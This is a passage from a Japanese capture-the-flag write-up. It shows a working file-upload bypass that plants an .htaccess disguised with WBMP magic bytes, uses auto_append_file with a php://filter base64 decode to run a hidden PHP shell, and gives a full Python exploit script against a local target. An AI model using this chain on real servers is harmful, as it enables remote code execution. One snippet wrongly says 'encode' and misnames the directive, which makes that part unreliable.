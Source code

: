 これを回避するためにphpのスクリプトをbase64などでエンコードしてしまう。もちろんこのままでは実行されない。
.htaccessに設定を書き加えて、デコードしてから実行されるようにする。

```
// .htaccess
php_value auto_append_file "php://filter/convert.base64-encode/resource=shell.wani"
```

`auto_append_value`は引数に取ったものをメインのプログラムが実行された後に実行する。
ここでは`"php://filter/convert.base64-encode/resource=shell.wani"`が引数なので
shell.waniをbase64デコードしたものが実行される。

[auto_append_file ディレクティブで自動的にファイルを読み込む](https://linuxserver.jp/%E3%83%97%E3%83%AD%E3%82%B0%E3%83%A9%E3%83%9F%E3%83%B3%E3%82%B0/php/auto_prepend_file%E3%83%87%E3%82%A3%E3%83%AC%E3%82%AF%E3%83%86%E3%82%A3%E3%83%96%E3%81%A8auto_append_file%E3%83%87%E3%82%A3%E3%83%AC%E3%82%AF%E3%83%86%E3%82%A3%E3%83%96/)

### 解答コード1

pythonのコードでまとめる

```python
import requests
import base64

VALID_WBMP = b'\x00\x00\x8a\x39\x8a\x39\x0a'
URL = 'http://127.0.0.1:8000'
RANDOM_DIRECTORY = '674556e943cbe2a967e63bb05743abb2d49e4640'

COOKIES = {
    "PHPSESSID" : "803e85ab9d0122057a6bbf96f5b93c48"
}

def upload_content(name, content):

    data = {
        "image" : (name, content, 'image/png'),
        "upload" : (None, "Submit Query", None)
    }

    response = requests.post(URL, files=data, cookies=COOKIES)

HT_ACCESS = VALID_WBMP + b"""
AddType application/x-httpd-php .wani
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.wani"
"""

TARGET_FILE = VALID_WBMP + b"AA" + base64.b64encode(b"""
<?php
  system("ls -lah /");
?>
""")

upload_content("..htaccess", HT_ACCESS)
upload_content("shell.wani", TARGET_FILE)
upload_content("trigger.wani", VALID_WBMP)


response = requests.post(URL + "/images/" + RANDOM_DIRECTORY + "/trigger.wani")
print(response.text)

```
3つのファイルを送信してtrigger.waniにアクセスするとtrigger.waniがphpとして実行された後、shell.waniが実行される。
